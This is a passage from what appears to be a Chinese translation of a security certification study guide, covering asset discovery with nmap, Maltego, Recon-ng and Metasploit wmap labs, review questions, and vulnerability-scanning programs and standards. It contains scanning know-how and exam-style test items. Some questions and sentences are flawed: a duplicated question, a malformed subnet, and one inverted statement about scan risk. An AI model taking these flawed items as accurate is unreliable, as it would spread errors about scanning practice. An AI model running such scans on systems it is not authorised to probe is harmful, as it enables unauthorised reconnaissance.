

图 5.21 来自 nmap 扫描的数据包获数据

## 总结

资产发现理解环境的关键部分。主动和被动方法都可以用于收集网络上存在哪些设备、系统和服务的信息。对于网络安全从业人员来说，了解如何使用扫描映射设备，以及如何对设备进行指纹识别以识别唯一设备并确定其类型及运行的操作系统是非常重要的。

了解系统和设备上存在有助于资产发现的数据，可以帮助从业人员识别系统、设备和服务。由于安全控制、网络拓扑结构和设计以及其他限制因素需要超出简单端口扫描的额外努力，资产发现有许多形式和技术。

从业人员的关键工具包括如 `nmap` 和 `Angry IP Scanner` 等端口扫描器，以及支持信息收集和侦察工作的工具，如 `Maltego` 和 `Recon-ng`。`Metasploit Framework` 等多功能工具将这些许多能力构建到其工具集中，允许从业人员能够从信息收集和分析切换到漏洞利用或其他活动。

作为一名安全从业人员，你需要了解如何通过端口和漏洞扫描、日志审查、被动信息收集和组织情报收集来收集信息并执行设备指纹识别和网络映射。你还应该熟悉考试所需的 `nmap`、`Angry IP Scanner`、`Maltego`、`Metasploit Framework` 和 `Recon-ng` 等工具。这些技能的结合将为你提供理解你必须防御的网络、系统和其他组织资产所需的能力。

## 考试要点

**解释为什么主动侦察对资产发现和映射至关重要。** 主动侦察涉及探测系统和网络以获取信息。端口扫描是侦察过程中常见的第一步，`nmap` 是用于系统、端口、操作系统和服务发现及部分扫描的常用工具。主动侦察还可以通过捕获信息并分析网络设备和系统的响应来确定网络拓扑结构。了解常见的端口和服务对有助于分析和理解被发现的服务。

**了解被动发现如何在不进行主动探测的情况下提供信息。** 被动发现依赖于在不探测系统和网络的情况下收集的数据。日志文件、配置文件以及来自 `DNS` 和 `Whois` 查询的发布数据都可以在不向系统或网络发送任何流量的情况下提供价值数据。数据包获在尝试理解网络时非常有用，可以帮助记录主动侦察活动，并提供诊断和网络数据。

**评估来自常用工具的数据。** 像 `Angry IP Scanner` 和 `nmap` 等工具可用于资产发现和映射。`Maltego` 和 `Recon-ng` 用于映射和组织开源情报以及侦察数据。`Metasploit Framework` 包含了信息收集工具、漏洞利用工具以及其他功能。理解这些工具的用途、其基本功能以及如何读取它们的输出。

**解释资产发现和设备指纹识别。** 资产发现帮助组织识别其网络上拥有什么，以及系统和设备上暴露了哪些服务。理解拓扑、操作系统、服务和主机对于确保你拥有准确的网络映射非常重要。网络映射扫描、操作系统和服务检测及其准确性，以及像生存时间（TTL）之类的拓扑信息都在此过程中发挥了作用。

## 实验练习

### 活动 5.1：端口扫描

在此练习中，你将使用 `Kali Linux` 虚拟机来：

* 使用 `nmap` 对系统进行端口扫描。
* 识别系统的操作系统和版本。
* 在端口扫描期间捕获数据包。

### 第 1 部分：设置虚拟机

* 关于设置 `Kali Linux` 和 `Metasitable` 虚拟机的信息可以在本书的介绍部分找到。如果你已经设置好了，可以使用它们。

1. 启动 `Kali Linux` 和 `Metasitable` 虚拟机并登录。用户名/密码分别为 `kali/msfadmin`。
2. 在控制台使用 `ifconfig`。

### 第 2 部分：执行扫描

* 现在我们将对 `Metasitable` 进行扫描。`Metasitable` 被设计为存在漏洞，因此我们预计看到许多服务。

1. 打开终端窗口。
2. 输入 `nmap` 以及目标 IP 地址。
3. 现在我们将识别操作系统。重新运行 `nmap -O [target IP]` 并添加 `-p 1-65535` 以扫描所有端口。

### 活动 5.2：设备指纹识别

在此练习中，你将使用 `nmap` 的内置工具对设备进行指纹识别。

1. 重复活动 5.1 中描述的扫描，使用 `target IP`。
2. 验证响应。
3. 对其他设备重复扫描。如果你在自己的网络上，可以扫描电视、家居自动化设备或路由器。如果你不在控制的网络上，可以下载并运行其他虚拟机来测试此功能。

### 活动 5.3：使用 Metasploit Framework 进行扫描

`Metasploit Framework` 包含了多种漏洞扫描工具。在此练习中，你将利用其中一个工具获得基础熟悉。在准备考试时，你可能尝试其他的 Metasploit 工具和模块。Offensive Security 的 Metasploit Unleashed 网站 `www.offensive-security.com/metasploit-unleashed` 更深入地介绍了该工具。

此实验假设你已运行了活动 5.1 中描述的虚拟机。

1. 打开 Metasploit Framework。
2. 在 `msf>` 提示符下输入 `load wmap`。
3. 使用 `wmap_sites -a http://[target machine address]` 添加你的目标虚拟机。
4. 使用 `wmap_targets -t http://[target machine address]` 将其设置为目标。
5. 使用命令 `wmap_run -e` 运行 `wmap`。
6. 使用 `wmap_vulns -l` 查看输出。

## 复习题

1. Megan 想使用 Metasploit Framework 进行 Web 漏洞扫描。列表中的哪个模块最符合她的需求？
   1. `smb_login`
   2. `Angry IP`
   3. `nmap`
   4. `wmap`

2. `nmap` 使用什么标记来启用操作系统识别？
   1. `–os`
   2. `–id`
   3. `–O`
   4. `–osscan`

3. 哪种命令行工具可以用于确定流量流向远程系统的路径？
   1. `Whois`
   2. `traceroute`
   3. `nslookup`
   4. `routeview`

4. Valerie 想要使用图形界面来控制 `nmap`，并希望将扫描结果显示为可视化地图以帮助她理解目标网络。她应该使用列表中的哪种工具？
   1. `Angry IP Scanner`
   2. `wmap`
   3. `Zenmap`
   4. `nmap-gs`

5. Susan 使用以下命令运行 `nmap` 扫描：

   ```
   nmap -O -Pn 192.168.1.0/255
   ```

   她将看到关于所扫描主机的哪些信息？

   1. 主机名和服务器端口
   2. 主机名、服务端口和操作系统
   3. 主机名和操作系统
   4. 主机名、运行时间和登录用户

6. Tuan 想要收集他在 `Maltego` 中输入的域名的更多额外信息。在 `Maltego` 中使用什么功能来执行基于服务器的操作？
   1. `worker`
   2. `query`
   3. `transform`
   4. `scan`

7. Laura 想要使用 `Recon-ng` 进行主机搜索，但她希望利用具有 API 访问权限的搜索引擎来获取现有数据。她应该使用哪种模块？
   1. `recon/companies-multi/whois_miner`
   2. `import/nmap`
   3. `recon/domains-hosts/shodan_hostname`
   4. `import/list`

8. 运行 `nmap` 扫描后，Geoff 发现他扫描的系统上开启了 80 和 443 端口。根据结果，他对该系统可以什么合理的假设？
   1. 该系统是 Windows 系统。
   2. 该系统运行着数据库服务器。
   3. 该系统是 Linux 系统。
   4. 该系统运行着 Web 服务器。

9. 在进行 `nmap` 扫描时，使用什么信息来识别网络段和拓扑？
   1. `IP addresses`
   2. `Hostnames`
   3. `Time to live`
   4. `Port numbers`

10. Murali 想要使用 `nmap` 扫描网络，并运行了无任何标记的扫描，但没有发现他认为应该显示的所有主机。他可以使用什么扫描标记在不进行主机发现的情况下进行扫描，同时确定系统上是否开启的服务？
    1. `-sn`
    2. `-PS`
    3. `-Pn`
    4. `-sL`

11. Jaime 正在使用 `Angry IP Scanner` 注意到它支持多种类型的 ping 来识别主机。她为什么可能会选择特定类型的 ping 而不是其他的？
    1. 绕过防火墙
    2. 实现更好的漏洞检测
    3. 防止扫描被 DDoS 保护工具标记
    4. 利用 `TCP` ping 比 `UDP` ping 更快的速度

12. Hue 想要作为侦察工作的一部分执行网络足迹绘制。考虑到域名是其工作的起点，以下哪种工具最适合进行被动足迹绘制？
    1. `Traceroute`
    2. `Maltego`
    3. `Nmap`
    4. `Angry IP Scanner`

13. Jack 想要使用 `Angry IP Scanner` 扫描系统。他运行扫描需要哪些信息？
    1. 系统的 `IP address`
    2. 系统的 `Whois` 数据
    3. 系统的 `MAC address`
    4. 系统管理员的用户名和密码

14. 在进行端口扫描时，以下哪项不是安全专业人员执行数据包获的原因？
    1. 工作流程记录
    2. 为分析捕额外数据
    3. 防止攻击

15. 在进行 `nmap` 扫描时，使用什么信息来识别网络段和拓扑？
    1. `IP addresses`
    2. `Hostnames`
    3. `Time to live`
    4. `Port numbers`

16. Li 想要使用 `Recon-ng` 收集数据。以下哪项不是 `Recon-ng` 的常见用途？
    1. 进行漏洞扫描
    2. 寻找敏感文件
    3. 进行 OSINT
    4. 寻找目标 IP 地址

17. Jason 想要使用 `Metasploit Framework` 进行端口扫描。他可以使用哪种工具？
    1. `Angry IP Scanner`
    2. `Recon-ng`
    3. `Maltego`
    4. `nmap`

18. Sally 想要使用 `nmap` 确定运行的是什么操作系统。以下哪项不是 `nmap` 使用的数据点？
    1. `TCP sequences`
    2. `TCP timestamps`
    3. `TCP OS header`
    4. `TCP options`

19. Chris 想要执行网络发现。如果依赖端口扫描器，他会遇到什么限制？
    1. 端口扫描器无法检测漏洞。
    2. 端口扫描器无法确定给定端口运行着什么服务。
    3. 防火墙可以阻止端口扫描器。
    4. 端口扫描器会导致拒绝服务。

20. Emily 想要使用开源工具收集开源情报并将其集中。以下哪种工具最适合她的工作？
    1. `Metasploit Framework`
    2. `Recon-ng`
    3. `nmap`
    4. `Angry IP Scanner`

然而，有两项监管方案明确要求实施漏洞管理计划：支付卡行业数据安全标准（PCI DSS）和联邦信息安全管理法（FISMA）。

## 支付卡行业数据安全标准（PCI DSS）

PCI DSS 为处理信用卡交易的商户以及协助商户进行此类交易的服务供应商规定了特定的安全控制措施。该标准包含了被认为是任何标准中对漏洞扫描最具体的要求。

PCI DSS 规定了漏洞扫描的许多细节，包括以下内容：

* 组织必须同时运行内部和外部漏洞扫描。
* 组织必须至少每三个月（季度）运行一次扫描，并在“发生任何重大变更后”运行扫描。
* 内部扫描必须由具备资质的人员进行。
* 组织必须修复任何高风险漏洞并重复扫描以确认漏洞已解决，直到获得“洁净”的扫描报告。
* 外部扫描必须由 PCI SSC 授权的认可扫描供应商（ASV）进行。

用于 PCI DSS 合规性的漏洞扫描是一个蓬勃且竞争激烈的行业，许多网络安全咨询公司专门从事此类扫描。许多组织选择先进行自扫描，以确保在向 ASV 请求官方扫描之前自己能够获得通过的结果。

## 联邦信息安全管理法（FISMA）

联邦信息安全管理法（FISMA）要求政府机构以及代表政府机构运行的其他组织遵守一系列安全标准。这些标准要求的特定控制措施取决于政府如何将系统定义为低影响、中等影响或高影响，具体定义见图 6.1。有关系统分类的进一步指导，请参阅《联邦信息处理标准（FIPS）199：联邦信息和信息系统的安全分类标准》。



图 6.1 FIPS 199 标准 ¶ 来源：FIPS 199 / 美国商务部 / 公有领域

所有联邦信息系统，无论其影响分类如何，都必须满足 NIST 特别出版物 800-53（《联邦信息系统和组织的安全与隐私控制》）中的漏洞扫描基本要求。这些要求每个受 FISMA 约束的组织执行以下操作：

1. 监控并扫描系统及托管应用程序中的漏洞，并在发现可能影响系统的新漏洞时进行上报。
2. 采用漏洞扫描工具和技术，以促进工具之间的互操作性，并通过使用以下标准实现漏洞管理过程的部分自动化：
   1. 列举平台、软件缺陷和不当配置
   2. 格式化检查清单和测试程序
   3. 衡量漏洞影响
3. 分析漏洞扫描报告和来自漏洞监控的结果。
4. 根据组织的风险评估修复合法的漏洞。
5. 分享从漏洞扫描过程和安全控制评估中获得的信息，帮助消除其他信息系统中的类似漏洞（即系统性缺陷或不足）。
6. 采用漏洞监控工具，其具备随时更新待扫描漏洞的能力。

这些要求为所有联邦信息系统建立了基准。

## 公司政策


PCI DSS 和 FISMA 的规定性安全要求涵盖了涉及零售交易处理和运行政府系统的组织，但这两类组织仅占企业的一部分。网络安全专业人士广泛认为，漏洞管理是任何信息安全计划的关键组成部分，正因如此，许多组织在公司政策中强制要求漏洞扫描，即使这一要求并非来自监管法规的要求。

## 行业标准

安全专业人员在为组织创建安全标准时，应当借鉴他人的工作。这些标准包含了控制措施，可以降低漏洞在组织环境中存在的概率，使组织能够更好地检测发生的漏洞，并缓解未检测到的漏洞带来的风险。

### 互联网安全中心（CIS）

互联网安全中心（CIS）发布了一系列安全基准，这些基准代表了领域专者的共识。这些基准为各种操作系统、应用程序和设备提供了详细的配置说明。

这些行业基准为组织的配置工作提供了良好的起点。从坚实的基础开始可以为定制化的安全标准节省大量工作时间。

### 国际标准化组织（ISO）

国际标准化组织（ISO）也发布了一系列与信息安全相关的标准。`ISO 27001` 建立了信息安全管理标准方法，而 `ISO 27002` 对安全控制的细节进行了详细介绍。这些国际认可的标准在安全领域被广泛使用，组织可能会选择获得 `ISO 27001` 的合规认证。

### Web 应用安全项目（OWASP）

安全编码实践的最佳资源之一是 Web 应用安全项目（OWASP）。OWASP 是开发者和安全从业人员的广大社区之家，它托管了许多社区开发的标准、指南和最佳实践文档，以及大量的开源工具。OWASP 提供了一个定期更新的重大漏洞和主动控制列表，这不仅可以作为一组实用的最佳实践，也可以作为观察 Web 应用威胁逐年变化的方式。

最新版本的 OWASP 前十大漏洞列表（2021 年更新）包含以下漏洞：

* 访问控制失效
* 加密失效
* 注入
* 不安全设计
* 安全配置错误
* 漏洞和过期组件
* 身份认证失效
* 软件和数据完整性失效
* 安全日志和监控失效
* 服务器请求伪造

在对 Web 应用进行扫描时，漏洞扫描器通常配置为使用 OWASP 漏洞列表作为核心参考。

## 系统是生产系统、测试系统还是开发系统？

组织还使用自动化技术来识别可能被扫描的系统。网络安全人员使用扫描工具在网络中搜索连接的系统（无论它们是之前已知还是未知的），并构建 `asset inventory`（资产清单）。图 6.2 显示了使用漏洞扫描器清单功能开发的资产图示例。



`图 6.2` 资产图

管理员随后可以使用有关系统类型及其处理的信息的额外信息来补充此清单。这些信息将有助于判断哪些系统是关键的，哪些是非关键的。资产清单和 `asset criticality`（资产关键性）信息有助于指导有关扫描类型、扫描频率以及管理员在修复扫描检测到的漏洞时应优先考虑的决策。

## 调度扫描

网络安全人员依赖自动化来帮助他们高效、有效的方式履行职责。漏洞扫描工具允许对扫描进行自动化调度，从而减轻管理员的负担。图 6.3 显示了如何在 Tenable 的 Nessus 产品中配置这些扫描的示例。Nessus 是市场上最早的漏洞扫描器之一，且今天仍被广泛使用。管理员可以设定符合其安全、合规和业务要求的调度表。



`图 6.3` 配置 Nessus 扫描

管理员应配置这些扫描，以便在检测到新漏洞时提供自动告警。许多安全团队配置扫描生成扫描结果的自动电子邮件报告，例如图 6.4 所示的报告。



`图 6.4` 样本 Nessus 扫描报告

许多不同因素影响组织决定多久对其系统进行漏洞扫描的频率：

* 组织的 `risk appetite`（风险承受能力）是其对环境中风险的容忍程度。如果一个组织极度规避风险，它可能会选择更频繁地进行扫描，以缩短漏洞产生到被扫描检测之间的时间。
* `Regulatory requirements`（监管要求），例如 PCI DSS 或 FISMA，可能会规定漏洞扫描的最低频率。这些要求也可能来自公司政策。
* `Performance constraints`（性能限制）可能会限制扫描频率。例如，扫描系统可能每天只能执行特定次数的扫描，组织可能需要调整扫描频率以确保所有扫描成功完成。
* `Operations constraints`（运营限制）可能会限制组织在业务高峰期间进行资源密集型漏洞扫描，以避免干扰关键业务流程。
* `Licensing limitations`（许可限制）可能会限制扫描器消耗的带宽或可同时进行的扫描次数。

网络安全人员在规划漏洞扫描计划时必须平衡这些考虑因素。通常情况下，从小开始并随着时间的推移缓慢扩大漏洞扫描的范围和频率是明智的，以免让扫描基础设施或企业系统不堪重负。

## 主动与被动扫描

大多数漏洞扫描工具执行 `active vulnerability scanning`（主动漏洞扫描），这意味着工具实际上会与扫描的主机交互，以识别开放的服务并检查可能的漏洞。主动扫描确实提供高质量的结果，但这些结果也存在缺点：

* 主动扫描尝试连接网络上的每个设备以寻找开放端口和漏洞应用程序。它具有很强的噪声性，很可能会被扫描系统的管理员发现。在管理员已知扫描的环境中，这可能不是问题，但如果扫描目的是隐蔽的，主动扫描就会有问题。
* 主动扫描还可能意外利用漏洞并干扰生产系统的运行。虽然主动扫描器通常具有可以使用来尽量减少这种风险的设置，但事实是主动扫描可能会导致生产问题。
* 如果被防火墙、入侵防御系统、网络分段或其他安全措施阻止，主动扫描可能会完全遗漏某些系统。
* `Passive vulnerability scanning`（被动漏洞扫描）采用了一种不同的方法来补充主动扫描。被动扫描器不是探测系统的漏洞，而是监控网络，类似于入侵检测系统使用的技术。但它们寻找的不是入侵尝试，而是寻找过旧系统和应用程序的典型特征，并向管理员报告结果。

被动扫描具有一些非常人的益处，但它们只能检测反映在网络流量中的漏洞。它们不是主动扫描的替代品，但是周期性主动漏洞扫描的强有力补充。

## 配置和执行漏洞扫描

一旦安全人员确定了其漏洞管理计划的基本需求，他们必须配置漏洞管理工具，根据基于基于的扫描规范执行扫描。这些任务包括识别每个扫描的适当范围、配置扫描以满足组织需求以及维护漏洞扫描工具的更新性。

### 确定漏洞扫描范围

漏洞扫描的 `scope`（范围）描述了扫描的程度，包括对以下问题的回答：

* 哪些系统和网络将包含在漏洞扫描中？
* 将使用哪些技术措施来测试网络上是否存在系统？
* 对漏洞扫描发现的系统将执行哪些测试？

管理员应首先从宏观上回答这些问题，并确保他们与技术人员和管理层共识，即扫描是适当的且不太可能对业务造成干扰。一旦确定扫描设计良好且可能引起严重问题，他们就可以开始在漏洞管理工具中配置扫描了。

### 配置漏洞扫描

漏洞管理解决方案为管理员提供了配置许多与扫描相关的参数的能力。除了调度自动扫描和生成报告外，管理员还可以自定义扫描器执行的检查类型、提供访问目标服务器的凭据、在目标服务器上安装扫描代理，并从各种网络视角进行扫描。

#### 扫描灵敏度级别

配置漏洞扫描的网络安全人员应特别关注与扫描灵敏度级别相关的配置设置。这些设置决定了扫描器将执行的检查类型，并应进行自定义，以确保扫描在实现目标的同时，度地减少干扰目标环境的可能性。

通常，管理员通过从模板开始来创建新的扫描。这可以是由漏洞管理供应商提供并内置于产品中的模板，例如图 6.5 所示的 Nessus 模板，也可以为组织内部使用而开发的自定义模板。当管理员创建自己的扫描配置时，他们应该考虑将常用的配置设置保存到模板中，以便高效地复用工作，在配置未来的扫描时节省时间并减少错误。



图 6.5 Nessus 扫描模板

管理员还可以通过配置在每次扫描期间运行的特定插件（plug-ins）来提高扫描效率。每个插件都对特定的漏洞进行检查，这些插件通常根据它们涉及的操作系统、应用程序或设备分组成若干族。禁用不必要的插件可以通过跳过不必要的检查来提高扫描速度，并可能减少扫描器检测到的误报结果数量。

例如，不使用 Amazon Linux 操作系统的组织可能选择在扫描模板中禁用所有与 Amazon Linux 相关的检查。图 6.6 显示了在 Nessus 中禁用这些插件的示例。



图 6.6 禁用不使用的插件

### 补充网络扫描

基础漏洞扫描通过网络运行，从远程对系统进行探测。这通过模拟攻击者从另一个网络视角可能看到的内容，提供了系统安全的真实视图。然而，位于扫描器和目标服务器路径上的防火墙、入侵防御系统和其他安全控制可能会影响扫描结果，提供独立于这些控制措施的服务器安全不准确视图。

此外，许多安全漏洞仅通过远程扫描很难确认。通过网络运行的漏洞扫描可能会检测到存在漏洞的可能性，但无法可靠地确认它，导致需要管理员花费时间调查的误报结果。

现代漏洞管理解决方案可以使用有关服务器配置的信任信息来补充这些远程扫描。这些信息可以通过两种方式收集。首先，管理员可以为扫描器提供凭据，允许扫描器连接到目标服务器并检索配置信息。凭据扫描（credentialed scan）随后使用这些信息来确定是否存在漏洞，相比无凭据扫描方案提高了扫描的准确性。例如，如果漏洞扫描检测到可以通过操作系统更新来修复的潜在问题，凭据扫描可以在报告漏洞之前检查系统是否已安装该更新。

图 6.7 显示了某个漏洞扫描工具中提供的凭据扫描选项示例。凭据扫描可以访问操作系统、数据库和应用程序等源。

